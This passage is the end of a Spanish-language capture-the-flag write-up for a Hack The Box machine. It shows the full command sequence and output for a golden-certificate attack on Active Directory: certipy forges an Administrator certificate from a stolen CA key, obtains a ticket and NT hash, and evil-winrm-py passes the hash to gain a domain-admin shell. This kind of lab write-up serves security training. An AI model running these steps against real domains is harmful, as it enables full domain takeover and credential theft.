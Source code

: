 Procederemos a utilizar el certificado para firmar otro certificado en nombre del usuario `Administrator` asignando el campo de `UPN` (`User Principal Name`)

~~~ bash
certipy forge -ca-pfx ca.pfx -upn Administrator -out golden.pfx 

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'golden.pfx'
[*] Wrote forged certificate and private key to 'golden.pfx'
~~~

Nos autenticaremos como el usuario `Administrator` empleando el certificado que emitimos anteriormente

~~~ bash
certipy auth -pfx golden.pfx -dc-ip 10.10.11.71 -username Administrator -domain certificate.htb

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d80...
~~~


## Root Time

Ya podremos conectarnos a la máquina con privilegios totales sobre el dominio

~~~ bash
evil-winrm-py -i DC01.certificate.htb -u 'Administrator' -H 'd80...' 
        ▘▜      ▘             
    █▌▌▌▌▐ ▄▖▌▌▌▌▛▌▛▘▛▛▌▄▖▛▌▌▌
    ▙▖▚▘▌▐▖  ▚▚▘▌▌▌▌ ▌▌▌  ▙▌▙▌
                          ▌ ▄▌ v1.1.2
[*] Connecting to DC01.certificate.htb:5985 as Administrator
evil-winrm-py PS C:\Users\Administrator\Documents> whoami
certificate\administrator
~~~

Ya podremos ver la última flag ubicada dentro del escritorio del usuario `Administrator`

~~~ powershell
evil-winrm-py PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
eb0...
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

> Let us revere, let us worship, but erect and open-eyed, the highest, not the lowest; the future, not the past!
> — Charlotte Gilman
{: .notice--info}
